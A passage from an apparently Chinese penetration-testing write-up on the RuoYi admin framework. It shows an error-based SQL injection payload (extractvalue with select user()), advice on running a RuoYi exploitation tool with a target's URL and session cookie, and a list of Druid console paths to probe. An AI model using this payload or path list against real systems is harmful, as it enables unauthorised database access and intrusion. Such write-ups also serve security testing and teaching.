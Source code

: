 1  
&  
ancestors  
=  
0  
)  
or  
(  
extractvalue  
(  
1,concat  
((  
select user  
()))));  
#  
            
  
             
         
  
其中最简单的测试方式就是直接把url以及cookie值拿到若依工具去检测  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWVLy1ItE0DqHNNtibUVK3GB7p5EKztIWic7hmkN3iaAkj9ACcyjGdjcuFdq8pgbjTddUClw8L87P18tA/640?wx_fmt=png "")  
  
      
  
             
  
这里需要注意的是这个小饼干插件，新版本的若依系统的cookie值是Admin-Token值且是JWT编码的，右边的是老版本的，就是jsessionid值  
    
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWVLy1ItE0DqHNNtibUVK3GB78Yo8HXrIdZTpBibPiazibg4Ehsm0tUI0V0QfNtO5j7oexFbDnp7Ozh9mA/640?wx_fmt=png "")  
  
             
### 漏洞三：druid页面渗透  
  
可以看到bp数据包里面有很多的/prod-api接口，其实看若依系统多的师傅们都这到这个接口就是若依框架的常见的一个关键字接口  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWVLy1ItE0DqHNNtibUVK3GB714Dc31yYQPDYxAy8Qib9zNBmiaubJngyDW4e7Wg5dKe5QOsJR4sApn8g/640?wx_fmt=png "")  
  
  
druid常见访问路径：  
  
/druid/index.html            
  
/druid/login.html            
  
/prod-api/druid/login.html            
  
/prod-api/druid/index.html            
  
/dev-api/druid/login.html            
  
/dev-api/druid/index.html            
  
/api/druid/login.html            
  
/api/druid/index.html            
  
/admin/druid/login.html            
  
/admin-api/druid/login.html  
  